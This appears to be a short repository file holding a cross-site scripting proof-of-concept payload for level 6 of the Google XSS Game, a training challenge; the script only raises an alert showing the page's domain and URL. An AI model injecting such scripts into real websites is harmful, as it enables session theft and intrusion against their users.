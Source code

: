 # payload-googlexss
alert(document.domain);


// payload.js — PoC for XSS Game level6
(function(){
  alert('XSS by Hima — ' + location.href);
})();

